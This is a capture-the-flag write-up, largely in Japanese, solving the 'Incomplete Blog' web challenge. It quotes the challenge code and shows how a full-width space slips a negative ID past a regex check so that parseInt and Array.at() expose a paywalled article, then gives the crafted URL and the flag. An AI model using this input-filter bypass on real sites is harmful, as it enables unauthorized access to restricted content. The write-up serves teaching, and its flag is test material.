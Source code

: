 # Incomplete Blog:Web:201pts
JavaScriptでブログを作ってみました。  
ただ、まだ開発中ですし、有料記事のための課金システムも今頑張って作っているところで未完成です。なので、一部の有料にするつもりの記事は閲覧できません。ごめんなさい😉  
[http://incomplete-blog.harekaze.com](http://incomplete-blog.harekaze.com/)  
添付ファイル:  
- [incomplete-blog.zip](incomplete-blog.zip)  

---

I made a blog with JavaScript.  
This blog is currently under development. I'm working hard to implement a payment system for reading premium content, but it is not ready yet. So, more than 9000 articles that will be premium content are not available so far. Sorry for the inconvenience😉  
[http://incomplete-blog.harekaze.com](http://incomplete-blog.harekaze.com/)  
Attachments:  
- [incomplete-blog.zip](incomplete-blog.zip)  

# Solution
サイトにアクセスすると複数の記事があるようだ。  
Incomplete Blog  
[site.png](site/site.png)  
`/article/0`などで記事の中身が見られるようだが、10以上はアクセスできない。  
incomplete-blog.zipが配布されており、以下のようであった。  
```js
~~~
// generate articles
let articles = [];
for (let i = 0; i < 10000; i++) {
  articles.push({
    title: `Dummy article ${i}`,
~~~
  });
}
articles[1337] = {
  title: 'Flag',
  content: `Wow, how do you manage to read this article? Anyway, the flag is: <code>${flag}</code>`
};
~~~
app.get('/article/:id', async (request, reply) => {
  // id should not be negative 
  if (/^[\b\t\n\v\f\r \xa0]*-/.test(request.params.id)) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'Hacking attempt detected.'
    });
  }

  let id = parseInt(request.params.id, 10);

  // free users cannot read articles with id >9
  if (id > 9) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'You need to become a premium user to read this content.'
    });
  }

  const article = articles.at(id) ?? {
    title: 'Not found',
    content: 'The requested article was not found.'
  };
~~~
```
1337番の記事にフラグがあり、`^[\b\t\n\v\f\r \xa0]*-`が禁止されている。  
jsの`at`は負の数でも要素をとれるが、`-`で開始することも禁止されている。  
ここで`parseInt`は全角スペースを挿入してもうまく動作することに気づく。  
```bash
$ node
> parseInt(" -1",10)
-1
> parseInt("　-1",10)
-1
```
あとは`全角スペース-(10000-1337)`で1337番の記事が閲覧できる。  
`http://incomplete-blog.harekaze.com/article/%E3%80%80-8663`にアクセスしてやればよい。  
[flag.png](site/flag.png)  
flagが得られた。  

## HarekazeCTF{I_d0nt_kn0w_h0w_t0_m4ke_ctf_ch4llenges_t4sukete}